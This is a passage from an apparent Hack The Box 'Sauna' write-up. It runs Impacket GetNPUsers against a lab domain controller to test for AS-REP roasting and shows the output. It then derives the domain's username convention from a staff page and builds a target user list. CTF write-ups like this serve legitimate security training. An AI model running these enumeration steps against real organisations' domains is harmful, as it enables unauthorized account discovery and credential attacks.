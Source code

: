 Now lets try Impacket's GetNPUsers script to see if we can verify a true username and/or dump some hashes:

```text
┌──(ryan㉿kali)-[~/HTB/Sauna]
└─$ impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -usersfile hugo.txt -dc-ip 10.10.10.175
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User hsmith doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

Ok great, so while we were unable to exploit this, we were able to verify Hugo's username as well as the naming convention for Egotistical-Bank is first_letter_of_first-name.last_name (hsmith).

Lets enumerate the website on port 80 to see if we can find more info. After browsing around a bit, I found an "About Us" page that seemed useful, as it listed several other Egotistical-Bank employees:

![about_us.png](../assets/sauna_assets/about_us.png)

So now that we know the naming convention being used here, lets simply create a new file called users.txt, with all the employees names we've found so far:

```text
┌──(ryan㉿kali)-[~/HTB/Sauna]
└─$ cat >> users.txt
fsmith
scoins
hbear
btaylor
sdriver
skerb
hsmith
```
